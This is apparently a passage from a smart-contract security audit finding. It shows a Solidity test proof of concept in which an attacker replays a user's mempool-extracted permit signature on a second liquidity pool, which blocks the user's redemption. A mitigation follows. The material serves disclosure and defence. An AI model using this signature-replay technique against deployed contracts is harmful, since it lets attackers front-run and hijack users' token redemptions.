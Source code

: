 ```solidity
        TrancheToken trancheToken = TrancheToken(address(lPool.share()));
        assertEq(trancheToken.balanceOf(address(investor)), maxMint);

        // Sign permit for redeeming tranche tokens
        (v, r, s) = vm.sign(
            0xABCD,
            keccak256(
                abi.encodePacked(
                    "\x19\x01",
                    trancheToken.DOMAIN_SEPARATOR(),
                    keccak256(
                        abi.encode(
                            trancheToken.PERMIT_TYPEHASH(),
                            investor,
                            address(investmentManager),
                            maxMint,
                            0,
                            block.timestamp
                        )
                    )
                )
            )
        );
    }

    // Let's assume that there is another liquidity pool with the same poolId and trancheId
    // but a different currency
    LiquidityPool newLPool;
    {
        assert(currencyId != 123);
        address newErc20 = address(_newErc20("Y's Dollar", "USDY", 6));
        homePools.addCurrency(123, newErc20);
        homePools.allowPoolCurrency(poolId, 123);
        newLPool = LiquidityPool(poolManager.deployLiquidityPool(poolId, trancheId, newErc20));
    }
    assert(address(lPool) != address(newLPool));
    
    // Malicious actor can use the signature extracted from the mempool to 
    // request redemption from the different liquidity pool
    vm.prank(makeAddr("malicious"));
    newLPool.requestRedeemWithPermit(maxMint, investor, block.timestamp, v, r, s);

    // User's transaction will fail since the signature has already been used
    vm.expectRevert();
    lPool.requestRedeemWithPermit(maxMint, investor, block.timestamp, v, r, s);
}
```

### Recommended Mitigation Steps

One of the ways to mitigate this issue is to add some identifier of the liquidity pool to the permit message. This way permit will be linked to a specific liquidity pool.
